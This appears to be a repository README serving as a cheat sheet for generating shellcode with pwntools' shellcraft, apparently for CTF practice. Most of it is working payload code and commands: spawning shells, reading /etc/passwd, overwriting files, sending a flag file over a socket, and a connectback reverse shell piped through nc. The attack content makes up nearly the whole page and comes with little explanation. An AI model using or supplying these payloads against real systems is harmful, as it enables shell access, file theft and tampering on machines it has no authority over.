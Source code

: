 ## Shellcodes with pwntools

```
arch = [ 'linux', 'amd64', 'arm' ]

shell = 'sh', 'dupsh'
io    = 'cat', 'write_file', 'ls', 'sendfile'
nw    = 'connectback'
```


### sh 
* tested on i386, amd64, ARM

``shellcraft -c i386 sh -f r | strace -ifx demo32 -``

### dupsh
* tested on i386, amd64, ARM

``shellcraft -c i386 dupsh 1 -f r | strace -ifx demo32 -``

### cat
* tested on i386, amd64, ARM

``shellcraft -c i386 cat /etc/passwd  -f r | strace -ifx demo32 -``

### write_file = open_file + write_file 
* tested on i386, amd64, ARM

```python
s = 'this file has been overwritted by me'

sc = ''
sc += asm(shellcode.open_file('./flag', 0x2))
sc += asm(shellcode.write_file(3, s, len(s)))
```

### ls
* tested on i386, ARM
* have to write shellcode in amd64

``shellcraft -c i386 ls /etc -f r | demo32 -``

```python
sc += asm(shellcode.ls('/etc/', out_fd=4))

s = remote('localhost', 31337)
s.send(sc + '\n')
while 1:
    rv = s.recv(1540)
    if len(rv) == 0:
        break
    print parse_getdents(rv)
```

### sendfile = open_file + sendfile
* tested on i386, amd64, ARM

```python
#!python

from pwn import *
context('i386', 'linux')

HOST = 'localhost'
PORT = 31337

s = remote(HOST, PORT)

sc = ''
sc += asm(shellcode.open_file('./flag'))
sc += asm(shellcode.sendfile(in_fd=3, out_fd=4))

s.send(sc + '\n')
print s.recvall()
```

### connectback
* tested on i386
* amd64(unstable), thumb(didn't work)
* have to write shellcode in ARM

``shellcraft -c i386 connectback localhost 31338 3 -f r | nc localhost 31337``
